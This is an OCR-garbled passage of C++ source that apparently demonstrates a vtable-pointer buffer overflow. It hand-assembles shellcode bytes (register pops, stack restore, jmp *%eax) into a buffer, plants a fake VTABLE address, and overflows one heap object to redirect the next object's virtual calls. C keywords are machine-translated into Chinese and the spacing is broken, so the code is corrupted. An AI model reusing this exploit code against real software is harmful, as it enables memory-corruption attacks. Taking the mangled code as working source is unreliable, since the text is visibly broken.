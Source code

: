 CBuf\[i++\]=\'\\x5F\';

CBuf\[i++\]=\'\\x89\';CBuf\[i++\]=\'\\xEC\';

CBuf \[i ++\] = \'\\ x5D\';

CBuf\[i++\] = \'\\xFF\'; CBuf\[i++\] = \'\\xE0\';

//stosb %al,%es:(%edi)

//movl \$4\*Iaddress(%ebx),%eax

// popf //

popl% ebx //

popl% ecx //

popl% edx //

popl% esi //

popl% edi

//movl %ebp,%esp //

popl %ebp

//jmp \*%eax

//将新字符串插入缓冲区

LBuf=(unsigned long\*)&CBuf\[VPTROffset\];

\*LBuf=缓冲区地址； //我们的VTABLE的地址

CBuf\[LastByteOffset\]=0; //最后一个字节 （用于 strcpy()）

返回 CBuf； }

无效的主要 （）{

基类 \*Object\[2\];无符号长

\*VTABLEAddress;

对象\[0\]=新的 MyClass1；

对象\[1\]=新的 MyClass2；

printf(\"Object\[0\] 地址 = %X\\n\",(unsigned long)&(\*Object\[0\]));

VTABLEAddress=(unsigned long\*) ((char\*)&(\*Object\[0\])+256); printf(\"VTABLE 地址 =

%X\\n\",\*VTABLEAddress);

Object\[0\]‑>SetBuffer(BufferOverflow((unsigned long)&(\*Object\[0\]),3,BUFFERSIZE,

0x0101,\*VTABLEAddress,\"newstring\",0x29));

对象\[1\]‑>SetBuffer(\"string2\");

对象\[0\]‑>PrintBuffer();

对象\[1\]‑>PrintBuffer(); †
